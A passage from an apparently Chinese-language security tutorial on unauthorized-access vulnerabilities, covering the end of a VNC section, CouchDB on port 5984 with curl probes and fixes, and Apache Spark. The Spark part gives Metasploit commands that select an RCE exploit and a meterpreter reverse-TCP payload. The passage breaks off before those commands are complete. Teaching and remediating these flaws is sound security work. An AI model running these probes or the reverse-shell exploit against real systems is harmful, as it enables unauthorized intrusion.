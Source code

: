 **漏洞修复**

-   配置 VNC 客户端登录口令认证并配置符合密码强度要求的密码；
-   以最小权限的普通用户身份运行操作系统；

## 9.  CouchDB 未授权访问（5984）

**漏洞简介**

Apache CouchDB 是一个开源数据库，默认会在5984端口开放Restful的API接口，如果使用SSL的话就会监听在6984端口，用于数据库的管理功能。其HTTP Server默认开启时没有进行验证，而且绑定在0.0.0.0，所有用户均可通过API访问导致未授权访问。

在官方配置文档中对HTTP Server的配置有WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

**漏洞检测**

1、端口扫描

2、未授权访问kali测试命令

curl 192.168.126.130:5984

curl 192.168.126.130:5984/\_config

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001lb4Dw0ztslv.jpg)

**漏洞修复**

指定CouchDB绑定的IP （需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 文件中找到 “bind\_address = 0.0.0.0” ，把 0.0.0.0 修改为 127.0.0.1 ，然后保存。 注：修改后只有本机才能访问CouchDB。

设置访问密码（需要重启CouchDB才能生效）在 /etc/couchdb/local.ini 中找到“\[admins\]”字段配置密码。

设置WWW-Authenticate，强制认证。

## 10.    Apache Spark 未授权访问（6066、8081、8082）

**漏洞简介**

Apache Spark是一款集群计算系统，其支持用户向管理节点提交应用，并分发给集群执行。如果管理节点未启动访问控制，攻击者可以在集群中执行任意代码。该漏洞的本质是未授权用户可以向Master节点提交一个应用，Master节点会分发给Slave节点执行应用。如果应用中包含恶意代码，会导致任意代码执行，威胁Spark集群整体的安全性。

**漏洞检测**

nmap扫描出如下端口开放，则很有可能存在漏洞

![](https://qqq.gtimg.cn/music/photo_new/T053XD000008zURM1eCnMZ.jpg)

![](https://qqq.gtimg.cn/music/photo_new/T053XD00001xzw1y4KgLkd.jpg)

使用msf工具getshell

msf5>use exploit/linux/http/spark\_unauth\_rce

msf5>set payload java/meterpreter/reverse\_tcp

msf5>set rhost 192.168.100.2
